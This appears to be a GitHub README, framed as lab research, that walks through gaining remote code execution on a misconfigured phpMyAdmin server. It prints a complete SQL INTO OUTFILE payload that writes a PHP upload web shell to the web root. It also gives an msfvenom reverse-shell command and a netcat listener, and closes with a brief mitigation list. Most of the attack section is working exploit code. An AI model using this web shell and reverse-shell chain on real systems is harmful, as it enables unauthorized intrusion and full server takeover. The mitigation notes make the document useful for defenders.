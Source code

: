 # Authenticated RCE in PhpMyAdmin via SQL File Write and Shell Upload

> ⚠️ **Disclaimer**  
This repository is intended strictly for educational and research purposes.  
All actions were performed in a controlled lab environment.  
Unauthorized access or exploitation of systems you do not own is illegal and unethical.  
The author is not responsible for any misuse of the information provided here.

---

## 🧠 Overview

This repository demonstrates how an attacker can achieve **authenticated Remote Code Execution (RCE)** in a misconfigured **PhpMyAdmin** setup using the SQL query interface.

By abusing the `SELECT ... INTO OUTFILE` functionality, it is possible to write a malicious PHP web shell to the server's web root. That uploader is then used to upload a reverse shell, leading to complete remote access.

This is **not a new CVE** but rather a misconfiguration and privilege abuse chain.

---

## 📋 Attack Flow

1. Login to PhpMyAdmin with valid credentials
2. Use `SELECT INTO OUTFILE` to write a PHP uploader shell
3. Upload a reverse shell via that uploader
4. Trigger the uploaded shell to receive a reverse connection

---

## ⚙️ Lab Environment

- **Target URL**: `http://192.168.110.189:8080/phpmyadmin/`  
- **PhpMyAdmin Version**: 5.x  
- **OS**: Windows with WAMP (Web Root: `C:/wamp/www/`)  
- **Credentials**: Valid user login  
- **Listener IP**: `192.168.45.206`  
- **Port**: `4444`

---

## 💣 Exploit Commands

### 1. SQL Payload to Drop PHP Uploader

```sql
SELECT "<?php echo '<form action=\"\" method=\"post\" enctype=\"multipart/form-data\" name=\"uploader\" id=\"uploader\">'; 
echo '<input type=\"file\" name=\"file\" size=\"50\"><input name=\"_upl\" type=\"submit\" id=\"_upl\" value=\"Upload\"></form>'; 
if( $_POST['_upl'] == \"Upload\" ) { 
  if(@copy($_FILES['file']['tmp_name'], $_FILES['file']['name'])) { 
    echo '<b>Upload Done.</b>'; 
  } else { 
    echo '<b>Upload Failed.</b>'; 
  } 
} ?>" 
INTO OUTFILE 'C:/wamp/www/uploader.php'
```

### 2. Generate Reverse Shell Using msfvenom

```bash
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw -o rev_shell.php
```

### 3. Start Listener

```bash
nc -nlvp 4444
```

---

## 📸 Screenshots

1. **SQL Query to Inject Uploader**  
   ![SQL Injection](./screenshots/sql_query.png)

2. **Accessing Uploader via Browser**  
   ![Uploader Interface](./screenshots/upload.png)

3. **Creating a payload**
    ![Payload](./screenshots/payload.png)

4. **Uploading rev_shell.php**  
   ![Shell Upload](./screenshots/rev_shell_upload.png)

5. **Shell Triggered and Connection Received**  
   ![Reverse Shell](./screenshots/trigger.png)
   
   ![Reverse Shell](./screenshots/reverse_shell.png)

---

## 🔐 Mitigation

- Restrict or disable the `FILE` privilege in MySQL for all web users.
- Set the `secure_file_priv` variable in MySQL to restrict file write paths.
- Prevent public access to PhpMyAdmin.
- Apply proper file system permissions to prevent MySQL from writing to web directories.
- Use a Web Application Firewall (WAF) and monitor logs for suspicious queries.

---

## 📚 References

- [PhpMyAdmin Project](https://www.phpmyadmin.net/)  

---


## 📝 Related Blog Post

Read the full write-up:  
👉 [Authenticated RCE in PhpMyAdmin via SQL File Write and Shell Upload](https://medium.com/cyberquestor/authenticated-rce-in-phpmyadmin-via-sql-file-write-and-shell-upload-ba897cb3a6df)

